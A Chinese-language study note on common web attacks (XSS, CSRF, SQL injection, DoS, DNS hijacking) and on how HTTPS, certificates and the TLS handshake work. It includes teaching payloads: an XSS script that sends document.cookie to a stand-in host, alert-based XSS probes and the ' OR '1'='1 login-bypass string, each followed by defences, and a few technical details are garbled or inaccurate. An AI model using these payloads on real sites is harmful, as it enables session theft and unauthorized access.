

[TOC]

### HTTPS与网络安全

#### Web攻击技术

总结一下常见的 Web 攻击方法。

- **XSS 攻击**: 关键是脚本，利用恶意脚本发起攻击。
- **CSRF 攻击**: 关键是借助本地 Cookie 进行认证，伪造发送请求。
- **SQL 注入**: 关键是通过用 SQL 语句伪造参数发出攻击。
- **DDOS 攻击**: 关键是发出大量请求，最后令服务器崩溃。

##### 1.跨站脚本攻击XSS

###### (1)概念

跨站脚本攻击(Cross-Site Scripting, XSS) **指攻击者向用户请求的 HTML 页面中插入恶意脚本，从而可以执行任意脚本**。XSS 可以将**代码**(包括 HTML 和 JS 代码) 注入到**用户浏览的网页**上，达到如盗取用户的 **cookie**，改变网页的 DOM 结构，重定向到其他网页等攻击的目的。

主要分为：反射型 XSS、存储型 XSS、DOM 型 XSS。

**危害**：窃取用户的 Cookie、伪造虚假的输入表单骗取个人信息、显示伪造的文章或图片等。

###### (2)攻击原理

例如有一个**论坛网站**，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

被攻击之后该内容可能会被**渲染**成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带**当前作用域的 Cookie**。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号。

###### (3)攻击分类举例

**① 反射型XSS**

又称为非持久性跨站点脚本攻击，它是最常见的类型的 XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性 XSS 包含一个带 XSS 攻击向量的链接，即每次攻击需要用户的点击。

**简单例子**：正常发送如下消息，接收者将会接收信息并显示 Hello,Word。

```http
http://www.test.com/message.php?send=Hello,World
```

非正常发送如下消息，接收者接收消息显示的时候将会弹出警告窗口。

```http
http://www.test.com/message.php?send=<script>alert(‘foolish!’)</script>
```

**② 持久型XSS**

又称为持久型跨站点脚本，攻击代码一般存储在服务器的数据库中，当一个页面被用户打开的时候执行。这通常危害性更大，因为每当用户打开页面查看内容时脚本就会自动执行。

**简单例子：**例如留言板表单中的表单域。

```xml
<input type=“text” name=“content” value=“这里是用户填写的数据”>
```

**正常操作：**用户是提交相应留言信息；将数据存储到数据库；其他用户访问留言板，应用去数据并显示。

**非正常操作：**攻击者在 value 填写如下攻击代码并被存储到数据库中；其他用户取出数据显示的时候，将会执行这些攻击性代码。

```xml
<script>alert(‘foolish!’)</script> [或者 HTML 其他标签、一段攻击型代码等]
```

**③ DOM型XSS**

基于 DOM 的 XSS，通过对具体 DOM 代码进行分析，根据实际情况**构造 dom 节点**进行 XSS 跨站脚本攻击。

###### (4)防范手段

记住一句至理名言："**所有用户输入都是不可信的**"。**坚决不要相信用户的任何输入**，注意**过滤**掉输入中的所有特殊字符，这样就能防范大部分的 XSS 攻击。

**I 设置 Cookie 为 HttpOnly**

设置了 HttpOnly 的 Cookie 可以**防止 JavaScript 脚本**调用，就无法通过 document.cookie 获取用户 Cookie 信息。

**II 过滤或转义用户输入数据**

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 JavaScript 代码的运行。可以使用 Jsoup 框架对用户输入字符串做 **XSS 过滤**。

##### 2.跨站请求伪造CSRF

###### (1)概念

跨站请求伪造(Cross-site request forgery，CSRF)，是攻击者通过一些技术手段欺骗用户的浏览器去**访问一个自己曾经认证过的网站**并执行一些操作，如发邮件，甚至转账等。由于浏览器**曾经认证**过，所以被访问的网站会认为是**真正**的用户操作而去执行。

大致流程：用户登录并浏览受信任网站，受信网站服务器响应并生成用户的 **Cookie**，如果此时用户在未注销受信网站的情况下去访问恶意网站。恶意网站就会**利用 cookie** 去发起请求，而正常网站服务器会接受来自恶意网站的请求。

这种**恶意的网址**可以有很多种形式，例如可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。

###### (2)攻击原理

假如一家银行用以**执行转账**操作的 URL 地址如下：

```http
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName
```

比如一个用户**登录**了银行的网站(已经有了 cookie)，这个网站的评论区中有人发了一个学习炒股的超链接，这个人点了之后，这个链接可能执行：

```html

```

这就可能造成用户损失 1000 美元。

通过例子能够看出，攻击者并**不能通过 CSRF 攻击来直接获取用户的账户控制权**，也不能直接窃取用户的任何信息。攻击者能做到的就是欺骗用户浏览器，让其以用户的名义执行操作。

###### (3)防范手段

**I 使用 Token 验证**

在访问敏感数据请求时，要求用户浏览器提供**不保存在 Cookie 中，并且攻击者无法伪造**的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。所以可以**采用 token 认证**。

**II 人机交互**

配合**验证码**进行验证。因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户**输入验证码**可以让用户知道自己正在做的操作，所以银行转账这些一般都会有短信验证码。

**III 检查 Referer 首部字段**

**Referer 首部字段**位于 HTTP 报文中，用于**标识请求来源**的地址。检查这个**首部字段**并要求**请求来源**的地址在**同一个域名**下，可以极大的防止 CSRF 攻击。Referer 指的是页面请求来源。意思是只接受本站的请求，服务器才做响应；如果不是就拦截。

这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段。虽然 HTTP 协议对此字段的内容有明确规定，但无法保证来访浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。

###### (4)XSS与CSRF区别

**XSS 是在正常用户请求的 HTML 页面中执行黑客植入的恶意代码，CSRF 是黑客直接盗用用户浏览器中的登录信息，冒充用户去执行黑客的操作。**

**XSS 的问题出在用户数据没有过滤或者转义；CSRF 的问题出在 HTTP 接口没有防范不受信任的调用。**

##### 3.SQL注入攻击

###### (1)概念

**SQL 注入攻击是未将代码与数据进行严格隔离，导致在读取用户数据的时候，错误的把数据作为代码的一部分执行，从而导致安全问题。**

###### (2)攻击原理

例如一个网站登录验证的 SQL 查询代码为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

如果填入以下内容：

```sql
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
```

那么 SQL 查询字符串为：

```sql
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

此时无需验证通过就能执行以下查询：

```sql
strSQL = "SELECT * FROM users;"
```

###### (3)防范手段

**I 合理使用框架，使用预编译语句**

Java 中 **PreparedStatement** 是**预编译**的 SQL 语句，可以传入适当参数并且多次执行。由于没有拼接的过程，因此可以防止 SQL 注入。绑定变量使用预编译语句是预防 SQL 注入的最佳方式，使用预编译的 SQL 语句语义不会发生改变。

```java
PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE userid=? AND password=?");
stmt.setString(1, userid);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```

MyBatis 框架的 **#{} 绑定参数**也能防止 SQL 注入。

**II 输入过滤**

过滤用户输入参数中的特殊字符。

##### 4.拒绝服务攻击DOS

###### (1)概念

拒绝服务攻击(Denial-of-Service Attack，DoS)，其目的在于使目标服务器的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。此外还有**分布式拒绝服务攻击**(Distributed Denial-of-Service Attack，DDoS)。

###### (2)攻击方法

典型的 DOS 攻击方式如下：

- **SYN Flood**：这是一种利用 **TCP 协议**缺陷，发送大量伪造 **TCP 连接请求**，使得被攻击方资源耗尽的攻击方式。TCP 三次握手时，客户端服务器发出请求以建立连接，然后服务器返回一个报文，表明请求以被接受，然后客户端也会返回一个报文，最后建立连接。如果攻击者伪造 IP 地址并发出请求连接，服务器收到连接请求后也要回应一个报文，可是这个 **IP 是伪造的**，报文无法回应，**第二次握手出现错误**，这时服务器收不到第三次握手时客户端发出的报文，又再**重复第二次握手**的操作。如果攻击者伪造了大量 IP 地址并发出请求，那么服务器将维护一个非常大的**半连接**等待列表，这会占用大量资源甚至导致服务器瘫痪。
- **CC 攻击**：CC 攻击是目前应用层攻击的主要手段之一，借助代理服务器生成指向目标系统的合法请求，实现伪装和 DDoS。CC 攻击就模拟多个正常用户不停地访问如论坛这些需要大量数据操作的页面，造成服务器资源的浪费，CPU 耗用高，请求处理不完，网络拥塞，正常访问被中止。

###### (3)防范手段

没有根治的办法，除非不用 TCP/IP 链接。

- 确保服务器的系统文件是最新版本，并及时更新系统补丁。
- 正确设置防火墙。关闭不必要的服务，禁止对主机的非开放服务的访问，运行端口映射程序祸端口扫描程序，要认真检查特权端口和非特权端口，启用防火墙的防 DDos 的属性。 
- 限制同时打开 **SYN 的半连接**数目，缩短 SYN 半连接的 Time Out 时间。
- 限制特定 IP 短地址的访问。 

阿里巴巴的安全团队提出 DDoS 防御产品的核心是**检测技术和清洗技术**。检测技术就是检测网站是否正在遭受 DDoS 攻击，而清洗技术就是清洗掉异常流量。

##### 5.DNS劫持

###### (1)概述

DNS 劫持攻击又称为 DNS 重定向攻击，攻击者劫持用户的 DNS 请求，错误地解析网站的 IP 地址，从而将用户请求重定向到目标站点。

要执行 DNS 劫持攻击，攻击者要么在用户的系统上安装恶意软件，要么通过利用已知漏洞破解 DNS 通信来接管路由器。

###### (2)分类

- **本地 DNS 劫持攻击**：攻击者在用户系统上植入恶意软件并**修改本地 DNS 设置**，因此用户的系统现在使用由攻击者控制的恶意 DNS 服务器。

- **路由器 DNS 劫持攻击**：攻击者利用**路由器**中存在的固件漏洞来覆盖 DNS 设置，从而影响连接到该路由器的所有用户。

###### (3)防范手段

- 建议使用良好的安全软件和防病毒程序，并确保定期更新软件。建议使用公共 DNS 服务器，最好定期检查 DNS 设置是否已修改，并确保 DNS 服务器是安全的。
- 建议使用复杂的密码重置**路由器**的默认密码。使用 DNS 注册器时使用双因素身份验证，并修补路由器中存在的所有漏洞以避免危害。
- 如果已被 DNS 劫持，建议删除 **HOSTS** 文件的内容并**重置 Hosts File。**

### HTTPS

#### 基础

##### 1.HTTP安全性问题

HTTP 有以下安全性问题：

- (1) 使用**明文**进行通信，内容可能会被**窃听**。
- (2) **没有验证**通信双方的身份，通信方的身份有可能遭遇**伪装**。
- (3) 无法证明报文的**完整性**，报文有可能遭**篡改**。

##### 2.HTTPS概念

HTTPS 并不是新协议，而是基于 HTTP 进行通信，但利用 **SSL/TLS 来保证安全**，即 **HTTPS = HTTP + SSL/TLS**。通过使用 SSL/TLS，HTTPS 具有了**加密(防窃听)、认证(防伪装)和完整性保护(防篡改)**。

**HTTP + 加密 + 认证 + 完整性保护 = HTTPS**。

**TLS**：位于 HTTP 和 TCP **之间**的协议，其内部有 TLS 握手协议、TLS 记录协议。



下面会详述 HTTPS 是**如何解决加密、认证与完整性保护**这三个问题。

##### 3.HTTP和HTTPS的区别

- **端口不同**：HTTP 默认端口为 **80**，HTTPS 默认端口为 **443**。

- **安全性**：HTTP 协议运行在 TCP 之上，所有传输的内容都是**明文**，客户端和服务器端都**无法验证对方的身份**。HTTPS 是运行在 **SSL/TLS** 之上的 HTTP 协议，**SSL/TLS 运行在 TCP** 之上。所有传输的内容都经过**加密**，加密采用**对称加密，但对称加密的密钥用服务器方的证书进行了非对称加密**。HTTPS 安全性更高。

- **资源消耗**：HTTPS 比 HTTP 耗费更多服务器资源。且 HTTPS 协议需要到 CA 申请证书，一般免费证书很少，需要交费。 

##### 4.HTTPS的缺点

- 因为需要进行**加密解密**等过程，对 CPU 的额外**开销较大**，因此速度会更慢。
- 需要支付证书授权的高额费用。

#### 加密

##### 1.密码体制

###### (1)对称秘钥加密体制

**对称密钥加密**(Symmetric-Key Encryption)体制下加密和解密使用**相同的密钥**。

常用的对称加密算法：**AES**、3DES。


- **优点**：运算速度快。
- **缺点**：无法安全地将**密钥**传输给通信方。

###### (2)非对称密钥加密体制

**非对称密钥加密**，又称**公开密钥加密**(Public-Key Encryption)，加密和解密使用**不同的密钥**。非对象加密密钥由**公钥与私钥**组成，公钥加密需要私钥解密，私钥加密需要公钥解密。且无法根据公钥推知私钥，或根据私钥推知公钥。

公钥是公开的，**通信发送方获得接收方的公开密钥之后，就可以==使用公开密钥进行加密==，==接收方收到通信内容后使用私有密钥解密==**。


非对称加密的安全性是基于**大质数分解的困难性**，在非对称的加密中公钥和私钥是一对大质数函数。计算两个大质数的乘积是简单的，但是这个过程的逆运算也就是把乘积分解成两个质数是非常困难的。

常用的非对称加密算法：**RSA**(安全基于大质数的分解难度)、**ECC、SM2** 等。在 RSA 算法中，从一个公钥和密文中解密出明文的难度等同于分解两个大质数的难度。

非对称密钥除了用来**加密**，还可以用来进行**签名**。因为私有密钥无法被其他人获取，因此通信发送方使用其**私有密钥进行签名**，通信接收方使用发送方的公开密钥**对签名进行解密**，就能判断这个签名是否正确。

- **优点**：可以更安全地将公开密钥传输给通信发送方；
- **缺点**：非对称**加密与解密**运算速度慢，消耗更多的资源。

##### 2.HTTPS的加密方式

数据通信时需要用到一个**对称加密**的密钥，但是**直接**发过去是**不安全**的，所以使用**非对称加密**的方式将需要得**对称加密密钥**发送过去。

HTTPS 采用**==混合加密机制==**，**在交换密钥环节使用非对称加密方式，完成秘钥交换后进行数据传输时则使用对称加密方式**。


使用自己的**私钥**对自己所认可的消息生成一个该消息专属的**签名**，这就是**数字签名**，表明**承认该消息来自自己**。注意：**私钥用于加签，公钥用于解签，每个人都可以解签以查看消息的归属人**。

**客户端：明文 + 公钥 = 密文**。

**服务器：密文 + 私钥 = 明文**。

**公钥用于加密，私钥用于解密，只有私钥的拥有者才能查看消息的真正内容**。

#### 认证

##### 1.数字签名

数字签名用于证明**真实性**。数字签名必须保证以下三点：

- **报文鉴别**：接收者能够核实发送者对报文的签名(**证明来源**)；
- **报文的完整性**：发送者事后不能抵赖对报文的签名(**防抵赖**)；
- **不可否认**：接收者不能伪造对报文的签名（**防伪造**）。

现在已有多种实现各种数字签名的方法，**但采用非对称加密算法更容易实现**。

A 具有自己的**私钥**，所以除 A 外没有别人能产生这个密文。因此 B 相信报文 X 是 A 签名发送的。若 A 要抵赖曾发送报文给 B，**B 可将明文和对应的密文出示给第三者**。第三者很容易用 A 的**公钥去证实** A 确实发送 X 给 B。反之，若 B 将 X 伪造成 X'，则 B 不能在第三者前出示对应的密文。这样就证明了 **B 伪造**了报文。 


##### 2.数字证书与CA机构

当服务器接收到客户端发来的请求时，会向客户端**发送**服务器自己的**公钥**，但是**攻击者有可能中途篡改公钥**，将其改成攻击者自己公钥，客户端怎么知道这个公钥是自己想要访问服务器的公钥而不是黑客的呢？所以客户端也需要对服务器发送过来的**公钥进行合法性认证**。这时候就需要用到 **CA 数字证书**。

**证书**：全称公钥证书(Public-Key Certificate, PKC)，里面保存着归属者的**基本信息**，证书过期时间、归属者的**公钥**，并由认证机构(Certification Authority, **CA**) 施加数字签名，表明某个认证机构认定该公钥的确属于此人。

**数字证书认证机构**(**CA**，Certificate Authority)：客户端与服务器双方**都可信赖**的第**三方机构**。

##### 3.数字证书与公钥验证流程

(1) 首先阿里需要将自己的**公钥**发送给 **CA 机构**进行公钥申请，如果通过，则 CA 机构(CA 机构**自己也有公钥和私钥**) 则利用其**私钥**对阿里的**公钥进行非对称加密**，得到加密后的**明文(数字签名)**。加密完之后，得到的密文再加上**证书的过期时间、颁发给、颁发者**等信息，就组成了**数字证书**。**数字证书就是数字签名加上各种附加信息**。

(2) 用户浏览器向阿里发起 HTTPS 连接请求，阿里会将其**数字证书**发送给客户端，数字证书里面就包含阿里的**公钥**。

(3) 客户端首先需要对接收到的**数字证书进行验证**，以确保其中的公钥**真的就是阿里的而且没有被人篡改**。不论什么平台，设备的操作系统中都会**内置** 100 多个全球公认的 **CA 机构的公钥**。所以客户端使用 **CA 机构的公钥对数字证书中的数字签名**进行**认证**，因为证书是由 CA 机构的私钥加密的，所以可以用 CA 的公钥对其进行解密即可实现证书验证，如果验证成功则说明公钥是合法的。

数字证书验证流程如下。

- 首先客户端会用设备中内置的 CA 的**公钥**尝试**解密数字证书**，如果所有内置的 CA 的公钥都**无法解密**该数字证书，说明该数字证书不是由一个全球知名的 CA 签发的，这样客户端就**无法信任**该服务器的**数字证书**。
- 如果有一个 CA 的公钥能够成功**解密**该数字证书，说明该数字证书就是由该 CA 的私钥**签发**的。
- 此外还需要检查客户端当前访问服务器的域名与数字证书中提供的 "颁发给" 这一项是否吻合，还要检查数字证书是否过期等。

只有通过**验证之后**才能确保这个公钥真的是阿里发送给客户端的，才能继续后面的加密与通信步骤。流程看下图。


|      密码      |                作用                |           组成            |
| :------------: | :--------------------------------: | :-----------------------: |
| **消息认证码** | 确认消息的完整、并对消息的来源认证 |   共享秘钥+消息的散列值   |
|  **数字签名**  |         对消息的散列值签名         |  公钥+私钥+消息的散列值   |
|  **公钥密码**  |     解决**秘钥**的**配送问题**     |      公钥+私钥+消息       |
|    **证书**    |         解决公钥的归属问题         | 公钥密码中的公钥+数字签名 |

##### 4.报文鉴别

**数字签名**就能够实现对报文的**鉴别**。然而对**很长的报文**进行数字签名会消耗大量的计算资源。当传送不需要加密的报文时，应当使接收者能用**更简单**的方法鉴别报文的真伪，即**仅对报文的消息摘要进行数字签名**。

###### (1)散列函数

**散列函数**(Cryptographic Hash Function) 可以对很长的输入进行计算后输出一个**长度固定的较短结果**，输出叫做**散列值**。


不同的散列值肯定对应于不同的输入，但不同的输入却可能得出相同的散列值。散列函数的输入和输出并非一一对应，而是**多对一**的。**密码散列函数上是一种单向函数**，具有**单向性**的特点，要找到两个不同的报文，它们具有同样的密码散列函数输出，在计算上是不可行的。

###### (2)MD5和SHA算法

MD5 与 SHA 是常用的散列函数(算法)。

**MD5 报文摘要算法**

**MD5** 是报文摘要 MD(Message Digest) 的第 5 个版本。其基本思想是用足够复杂的方法将报文的数据位**充分"弄乱"**，报文摘要中的**每一位**都与**原来报文中的每一位有关**。

**MD5 计算步骤**：

1. **附加**：把任意长的报文按模 264 计算其余数(64位)，追加在报文的后面(长度项)。
2. **填充**：在报文和长度项之间填充 1～512 位，使得填充后的总长度是 512 的整数倍。填充的首位是 1，后面都是 0。

3. **分组**：把追加和填充后的报文分割为一个个 512 位的数据块，每个 512 位的报文数据再分成 4 个 128 位的数据块。
4. **计算**：将 4 个 128 位的数据块依次送到不同的散列函数进行 4 轮计算。每一轮又都按 32 位的小数据块进行复杂的运算。一直到最后计算出 MD5 报文摘要代码(128 位)。


**SHA 安全散列算法：**SHA 比 MD5 更安全，已制定 SHA-1、SHA-2、 SHA-3 等版本，现在用的基本都是高版本的。

###### (3)报文鉴别码MAC

靠散列函数计算出来的报文可以**防篡改**，但仅靠散列函数但**不能防伪造**，因而**不能真正实现报文鉴别**。例如：

(1) 入侵者创建了一个伪造的报文 M，然后计算出其散列 H(M)，并把拼接有散列的扩展报文冒充 A 发送给 B。
(2) B 收到扩展的报文 (M, H(M)) 后，通过散列函数的运算，计算出收到的报文 MR 的散列 H(MR)。
(3) 若 H(M) = H(MR)，则 B 就会误认为所收到的伪造报文就是 A 发送的。

为防范上述攻击，需要**对散列值进行一次加密**。散列加密后的结果叫做**报文鉴别码 MAC**(Message Authentication Code)。由于入侵者不掌握密钥 K，所以入侵者无法伪造 A 的报文鉴别码 MAC，因而无法伪造 A 发送的报文。这样就**完成了对报文的鉴别**。


所以现在**整个**的报文是**不需要加密**的。虽然从散列 H 导出报文鉴别码 MAC 需要加密算法，但由于散列 H 的长度通常都远远小于报文 X 的长度，因此这种加密**不会消耗**很多的计算资源。因此使用**鉴别码 MAC 就能够很方便地保护报文的完整性**。

##### 


#### 完整性保护

**SSL** 提供一种叫做 **MAC** 的==**报文摘要**==功能来进行**完整性保护**。

HTTP 也提供了 **MD5** 报文摘要功能，但**不是安全**的。例如报文内容被篡改之后，同时**重新计算** MD5 的值，接收方依然无法意识到被篡改了。

HTTPS 的报文**摘要功能**之所以安全，是因为它结合了**加密和认证**这两个操作。加密之后的报文，遭到篡改之后，也很难重新计算报文摘要，因为无法轻易获取明文。

#### HTTPS通信流程

**服务器端的公钥和私钥，用来进行非对称加密。客户端生成的随机密钥，用来进行对称加密通信**。

整体流程如下：


(1) 客户端向服务器发起 **HTTPS 请求**，连接到服务器的 **443 端口**。

(2) 服务器端有一个密钥对，即**公钥和私钥**，是用来进行非对称加密使用的，**服务器端保存着私钥**，不能将其泄露；公钥被封装到**数字证书**中可以发送给其他人。

(3) 服务器将自己的数字证书**发送给客户端**，里面就包含服务端公钥。

(4) 客户端收到服务器端的数字证书之后，会验证数字证书的**合法性**，这里就是通过浏览器内嵌的 **CA 机构的公钥**对数字证书进行验证。如果**数字证书合格**，那么**客户端**会生成一个**随机值**，这个随机值就是后续用于进行对称加密的**密钥**，可将该密钥称之为**客户端密钥**。然后客户端用服务器数字证书中的**公钥**对**客户端密钥进行==非对称加密==**。

(5) **客户端**将**非对称加密后的客户端密钥发送给服务器**。

(6) 服务器接收到客户端发来的密文之后，会用自己的**私钥**对其进行**非对称解密**，解密之后的明文就是**客户端密钥**，然后用客户端密钥对数据进行==**对称加密**==，这样需要传输的数据就变成了**密文**。

(7) 然后服务器将**对称加密后的密文**发送给客户端。

(8) 客户端收到服务器发送来的密文，用客户端密钥对其进行**对称解密**，得到服务器发送的数据。

#### SSL与TLS

##### 1.概述

TLS/SSL 是一种**加密通道的规范**。

- **SSL(Secure Socket Layer)**：安全套接层，作用在端系统应用层的 **HTTP 和运输层**之间，在 **TCP 之上建立起一个==安全通道==**，为通过 **TCP 传输的应用层**数据提供安全保障，于 1995 年发布 3.0 版本。
- **TLS(Transport Layer Security)**：**传输层安全性协议**，是在 SSL3.0 的**基础上**设计的协议，该协议由两层组成：TLS 记录协议(TLS Record) 和 TLS 握手协议(TLS Handshake)。较低的层为 TLS 记录协议，位于某个可靠的传输协议(例如 TCP) 上面。


以下全部使用 **TLS** 来表示。TLS 是一系列密码工具的**框架**，作为框架，其灵活性体现在它的每个工具套件都可以替换，即客户端与服务端之间协商密码套件，从而更难被攻破。例如使用不同方式的对称密码，或者公钥密码、数字签名生成方式、单向散列函数技术的替换等。

在**发送方**，TLS 接收**应用层**的数据，对数据进行**加密**，然后把加了密的数据送往 **TCP 套接字**。在**接收方**，TLS 从 TCP 套接字**读取**数据，**解密**后把数据交给**应用层**。 

运输层不使用安全协议和**使用安全协议**的对比如下图所示。


**应用层**使用 TLS 最多的就是 **HTTP**，但 TLS **并非仅用于 HTTP**，而是可用于**任何应用层**的协议。

**TLS 提供的安全服务**：

- **TLS 服务器鉴别**，允许用户证实服务器的身份。支持 TLS 的客户端通过验证来自服务器的证书，来鉴别服务器的真实身份并获得服务器的公钥。
- **TLS 客户鉴别**，TLS 的可选安全服务，允许服务器证实客户的身份。
- **加密的 TLS 会话**，对客户和服务器间发送的所有报文进行加密，并检测报文**是否被篡改**。

##### 2.SSL/TLS 握手流程

SSL/TLS 握手是为了**安全**地协商出一份**对称加密**的秘钥，这个过程如下。


(1) **Client Hello**: **握手**第一步是客户端向服务端发送 **Client Hello** 消息，这个消息里包含了一个客户端生成的随机数 **Random1**、客户端支持的**加密套件**和 **SSL 版本**等信息。

(2) **Server Hello**: 第二步是服务端向客户端发送 **Server Hello** 消息，这个消息会从 Client Hello 中支持的加密套件里确定一份加密套件，这个套件决定了后续加密和生成摘要时具体**使用哪些算法**，另外还会生成一份随机数 **Random2**。注意，至此客户端和服务端都拥有了**两个随机数**(Random1 + Random2)，这两个随机数会在**后续生成对称秘钥**时用到。

(3) **Server Certificate**: 这一步是服务端将自己的**证书下发给客户端**，让客户端验证服务器的身份，客户端验证通过后**取出证书中的公钥**。

(4) **Server Hello Done**: Server Hello Done 通知客户端 Server Hello 过程结束。

(5) **Client Key Exchange**: 客户端根据服务器传来的**公钥**生成 **PreMaster Key**，Client Key Exchange 就是将这个 **key 传给服务端**，服务端再用自己的**私钥**解出这个 **PreMaster Key** 得到客户端生成的 **Random3**。至此，客户端和服务端都拥有 **Random1** + **Random2** + **Random3**，两边再根据同样的算法就可以**生成一份秘钥**，握手结束后的应用层数据都是使**用这个对称秘钥进行对称加密**。为什么要使用**三个随机数**？这是因为 SSL/TLS 握手过程的数据都是**明文传输**的，并且多个随机数种子来生成秘钥不容易被暴力破解出来。

(6) **Change Cipher Spec(Client)**: 这一步是客户端通知服务端后面再发送的消息都会使用前面协商出来的**秘钥加密**了，是一条事件消息。

(7) **Finished(Client)**: 客户端发送 **Finished** 报文。该报文包含连接至今全部报文的整理校验值。这次握手协议是否能成功，要以服务器是否能够正确解密该报文作为判定标准。

(8) **Change Cipher Spec(Server)**: 服务器同样发送 Change Cipher Spec 报文给客户端。

(9) **Finished(Server)**: 服务器同样发送 Finished 报文给客户端。

(10-11) **Application Data**: 到这里双方已安全地协商出了**同一份秘钥**，所有的应用层数据都会用这个秘钥**对称加密**后再通过 TCP 进行可靠传输。

(12) **Alert: warning, close notify**: 最后由客户端断开连接。断开连接时，发送 close_notify 报文。上图做了一些省略，在这步之后再发送一种叫做 MAC(Message Authentication Code) 的报文摘要。MAC 能够查知报文是否遭到篡改，从而保护报文的完整性。


#### 参考资料

- [维基百科：跨站脚本](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%B6%B2%E7%AB%99%E6%8C%87%E4%BB%A4%E7%A2%BC)
- [维基百科：SQL 注入攻击](https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A)
- [维基百科：跨站点请求伪造](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
- https://blog.csdn.net/zhydream77/article/details/85694614


